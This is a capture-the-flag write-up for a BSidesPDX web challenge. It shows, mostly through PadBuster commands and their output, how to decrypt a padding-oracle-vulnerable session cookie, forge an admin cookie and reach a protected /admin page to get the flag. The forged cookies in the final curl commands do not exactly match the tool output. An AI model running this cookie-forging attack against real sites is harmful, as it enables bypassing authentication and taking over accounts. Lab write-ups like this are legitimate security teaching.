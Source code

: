 # Web 200 Solution

##Solution

```
The great Oracle at Dodona welcomes you

What would you like to ask the Oracle? 
```

Some great Oracle...

Looking at the main page, there's a text box to input a question to ask the Oracle. Just about any input seems to reply with magic 8 ball type responses. 

It seems like this input box is not going to be useful. At this point, I run some enumeration and try to find any other valid pages. Interestingly, there is one page that returns a 403 Forbidden, the /admin page.

So it seems like this may be a page we want to get access to. There doesn't seem to be any sort of login, so what's controlling it? Taking a look at the request, there's an interesting cookie in there:
```
Cookie: session=e3759add-d75a-4773-8a60-d24048f9f42c; wisdom_of_the_gods=wLsHpvE7rRV32BHVdh8g31/WWvh/Kr69DtywOmB5s9Y0J8jIH36ojzXn2iN7HOSDK1wtXqcJewDLBoFjsJWVErurUxrAJlVBg4ixiloggs4zsMjnX5znQ2stGVCIf13Y5EVRPkWJHaK5qi%2BcyAlcvWBEiCKFIe4m2EZZ5tr1OJ%2Bp5nZr%2Bz1HmTq8Rkf1hpo3
```

The wisdom_of_the_gods looks potentially interesting. Wait...oracle, cookie, could this be a padding oracle vulnerability?

There's a nice utility for exactly these types of vulnerabilities called [PadBuster](https://github.com/GDSSecurity/PadBuster). All we have to do is grab the cookie, point it at the url, and see what happens.

```
padbuster http://127.0.0.1 wLsHpvE7rRV32BHVdh8g31/WWvh/Kr69DtywOmB5s9Y0J8jIH36ojzXn2iN7HOSDK1wtXqcJewDLBoFjsJWVErurUxrAJlVBg4ixiloggs4zsMjnX5znQ2stGVCIf13Y5EVRPkWJHaK5qi%2BcyAlcvWBEiCKFIe4m2EZZ5tr1OJ%2Bp5nZr%2Bz1HmTq8Rkf1hpo3 16 -cookies wisdom_of_the_gods=wLsHpvE7rRV32BHVdh8g31/WWvh/Kr69DtywOmB5s9Y0J8jIH36ojzXn2iN7HOSDK1wtXqcJewDLBoFjsJWVErurUxrAJlVBg4ixiloggs4zsMjnX5znQ2stGVCIf13Y5EVRPkWJHaK5qi%2BcyAlcvWBEiCKFIe4m2EZZ5tr1OJ%2Bp5nZr%2Bz1HmTq8Rkf1hpo3
```

Which should give you an output of:
```
+-------------------------------------------+
| PadBuster - v0.3.3                        |
| Brian Holyfield - Gotham Digital Science  |
| labs@gdssecurity.com                      |
+-------------------------------------------+

INFO: The original request returned the following
[+] Status: 200
[+] Location: N/A
[+] Content Length: 907

INFO: Starting PadBuster Decrypt Mode
*** Starting Block 1 of 8 ***

INFO: No error string was provided...starting response analysis

*** Response Analysis Complete ***

The following response signatures were returned:

-------------------------------------------------------
ID#	Freq	Status	Length	Location
-------------------------------------------------------
1	1	200	907	N/A
2 **	255	500	291	N/A
-------------------------------------------------------
```

Running it against ID#2 will go through the process of recovering the plaintext of the cookie. The resulting plaintext looks something like:
```
[+] Decrypted value (ASCII): {"username": "guest", "whats_the_answer_to_life_the_universe_and_everything": "", "security_put_some_text_here": ""}
```

Awesome, we can see that we're a guest. Maybe that's why we couldn't get to the admin page before. The nice thing about padbuster is it also allows you to set the plaintext you want to be recrypted and it will spit out the correct value for you to put into your cookie.

```
padbuster http://127.0.0.1 wLsHpvE7rRV32BHVdh8g31/WWvh/Kr69DtywOmB5s9Y0J8jIH36ojzXn2iN7HOSDK1wtXqcJewDLBoFjsJWVErurUxrAJlVBg4ixiloggs4zsMjnX5znQ2stGVCIf13Y5EVRPkWJHaK5qi%2BcyAlcvWBEiCKFIe4m2EZZ5tr1OJ%2Bp5nZr%2Bz1HmTq8Rkf1hpo3 16 -cookies wisdom_of_the_gods=wLsHpvE7rRV32BHVdh8g31/WWvh/Kr69DtywOmB5s9Y0J8jIH36ojzXn2iN7HOSDK1wtXqcJewDLBoFjsJWVErurUxrAJlVBg4ixiloggs4zsMjnX5znQ2stGVCIf13Y5EVRPkWJHaK5qi%2BcyAlcvWBEiCKFIe4m2EZZ5tr1OJ%2Bp5nZr%2Bz1HmTq8Rkf1hpo3 -plaintext '{"username": "admin", "whats_the_answer_to_life_the_universe_and_everything": "", "security_put_some_text_here": ""}'

...

[+] Encrypted value is: trl3KJHTndq28WG0XrnPj9B6593W%2BVlSiB20tsaKlqylGVHVFz2xvXxQH8oR7ni%2BfWnhGtmtk6k%2BSxWkWESgKFl5aFzpzzDBVp9QoLQgO2Wdeijseus33psx8iEK8YRTeQygBz69lRJPIkUcjiJZgaV2TYEWt%2FN4DUa0C3Fz4y0AAAAAAAAAAAAAAAAAAAAA

```

So let's use that new value, put it into our cookie, and see if we can hit the admin page:
```
curl -b 'wisdom_of_the_gods=trl3KJHTndq28WG0XrnPj9B6593W%2BVlSiB20tsaKlqylGVHVFz2xvXxQH8oR7ni%2BfWnhGtmtk6k%2BSxWkWESgKFl5aFzpzzDBVp9QoLQgO2Wde3psx8iEK8YRTeQygBz69lRJPIkUcjiJZgaV2TYEWt%2FN4DUa0C3Fz4y0AAAAAAAAAAAAAAAAAAAAA' http://127.0.0.1/admin

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>403 Forbidden</title>
<h1>Forbidden</h1>
<p>You don't have the permission to access the requested resource. It is either read-protected or not readable by the server.</p>

```

Still no access...however, there were two other fields that were in the decoded cookie. Maybe we need to populate those too. The answer to life, the universe, and everything is obviously 42 and the other fields says to put some text here so let's do that:

```
padbuster http://127.0.0.1 wLsHpvE7rRV32BHVdh8g31/WWvh/Kr69DtywOmB5s9Y0J8jIH36ojzXn2iN7HOSDK1wtXqcJewDLBoFjsJWVErurUxrAJlVBg4ixiloggs4zsMjnX5znQ2stGVCIf13Y5EVRPkWJHaK5qi%2BcyAlcvWBEiCKFIe4m2EZZ5tr1OJ%2Bp5nZr%2Bz1HmTq8Rkf1hpo3 16 -cookies wisdom_of_the_gods=wLsHpvE7rRV32BHVdh8g31/WWvh/Kr69DtywOmB5s9Y0J8jIH36ojzXn2iN7HOSDK1wtXqcJewDLBoFjsJWVErurUxrAJlVBg4ixiloggs4zsMjnX5znQ2stGVCIf13Y5EVRPkWJHaK5qi%2BcyAlcvWBEiCKFIe4m2EZZ5tr1OJ%2Bp5nZr%2Bz1HmTq8Rkf1hpo3 -plaintext '{"username": "admin", "whats_the_answer_to_life_the_universe_and_everything": "42", "security_put_some_text_here": "trololol"}'

...

[+] Encrypted value is: dapH9HiqyGELErgHPMW9pP%2F1R94TJ4XPu8MSlcOnBkFu3eDzQqlIlfwp%2FzfYkthhi3D5QVxcuT77DhGckKsZqVAGjAJweoWZf9rsgO9rdDB87m5rvKYN05Wuc9f9Ovtggsrh5w74Rd7Yn2ZcJrCEB6duT95uyZAYbibXa18C7SMAAAAAAAAAAAAAAAAAAAAA
```

Ok, let's give this one a shot:

```
curl -b 'wisdom_of_the_gods=dapH9HiqyGELErgHPMW9pP%2F1R94TJ4XPu8MSlcOnBkFu3eDzQqlIlfwp%2FzfYkthhi3D5QVxcuT77DhGckKsZqVAGjAJweoWZf9rsgO9rdDB87m5Wuc9f9Ovtggsrh5w74Rd7Yn2ZcJrCEB6duT95uyZAYbibXa18C7SMAAAAAAAAAAAAAAAAAAAAA' http://127.0.0.1/admin

<!doctype html>
<head>
	<link rel="stylesheet" type="text/css" href="/static/styles/style.css" />
</head>
<body>
	<h1 align="center">Welcome Oracle!</h1>
	<br />
	<p align="center">Walking by the sacred oak tree, the bronze cauldrons begin to ring...almost as if saying</p>
	<br />
	<br />
	<p align="center"><i>BSidesPDX{Th3_D0d0ni4n_ch4tt3rb0x_pr3dic7s_Y0ur_v!ct0ry}</i></p>
</body>
```

And there is it, the flag!